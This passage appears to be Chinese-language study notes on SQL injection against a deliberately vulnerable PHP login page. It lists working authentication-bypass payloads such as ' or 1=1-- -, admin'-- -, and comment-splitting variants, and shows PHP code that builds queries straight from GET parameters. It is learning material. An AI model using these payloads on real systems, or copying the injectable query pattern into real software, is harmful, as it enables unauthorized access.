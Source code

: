 ```php
    if ($row){
        echo "Login Succeeded!";
    } else {
        echo "Login Failed!";
    }
    mysqli_close($link); 
?>
```

对于第一种查询策略: 
`$query = "SELECT id, username, password FROM user WHERE username='$name' and password='$passwd' LIMIT 0,1";`, 
可以发现, 这个做的就是一个变量替换的过程, 然后一个思路就是利用变量替换, 
构造出长得不太合理的查询命令, 最终达到让自己随心所欲的目的. 

比如简单的**万能密码**: 
* `?name=a'%20or%201=1-- -`, 这样的输入就会让查询的语句变成: 
  `SELECT id, username, password FROM user WHERE username='a' or 1=1-- -' and password='' LIMIT 0,1`, 
  相当于是把后面的东西给注释了, 并且用`or 1=1`让`where`的判断始终为真, 
  就一定会有输入了. 改成`?password=a'%20or%201=1-- -`也行的. 
* `?name=admin'-- -`, 这样的输入适合那些知道一部分信息的攻击方法, 查询语句为: 
  `SELECT id, username, password FROM user WHERE username='admin'-- -' and password='' LIMIT 0,1`, 
  注释掉了一半, 确定的部分还是可以输出的. 
* 同样的原理也可以用: `?name=admin'/*&passwd=*/-- -`, 
  相当于是把`password`注释掉了, 这个适用于知道参数查询位置的攻击. 
  虽然不确定好不好用. 

上面的方法就是手工制作注入的`playload`, 或者可以通过`sqlmap`这个程序来自动尝试, 
(虽然一般是会有限制的). [项目网址](https://sqlmap.org). 
(并且我还没怎么用过, 所以不太清楚. )

然后剩下两种感觉是异曲同工的, 只要把上面的单引号的形式换一换就行了, 
比如第二种查询方式: `?name=admin"-- -`, 第三种`?name=admin')-- -`. 

然后一个绕弯的地方就是, 在后面的注释里面, 不是简单的`--`而已, 而是`-- -`, 
这个原因是为了防止程序把`--`理解成减去一个负数的意思. 比如`1 = --1`, 
因为理解成了算数运算, 所以不是注释. (所以最后一个`-`可以换成任意字符的样子. )

### 一般步骤
换一个例子: 

```php
<?php 
    // 连接刚刚经过处理的MySQL数据库
    $server = 'localhost';
    $dbusername = 'root';
    $dbpassword = 'password';
    $dbname = 'test';
    $link = mysqli_connect($server, $dbusername, $dbpassword, $dbname);
    mysqli_set_charset($link,'UTF-8'); // 设置数据库字符集

    $name = $_GET["name"];
    // 只查询了用户名, 说明只有用户名这里存在注入点
    $query = "SELECT id, username, password FROM user where username = '$name'";
    echo $query."<br>";
    $result = mysqli_query($link, $query);
    echo mysqli_error($link); 
    
    $obj = mysqli_fetch_object($result);
    // 下面的操作能够成立的一个原因就是这个var_dump把查询的数据返回输出了, 
    //   所以才能够看得比较清楚
    var_dump($obj);
    // 逻辑是通过查询用户名, 比较密码和用户输入的是否相等
    if ($obj->password === $_GET['passwd'] && $name != Null && $_GET['passwd'] != Null){
        echo "Login Succeeded!";
    } else {
```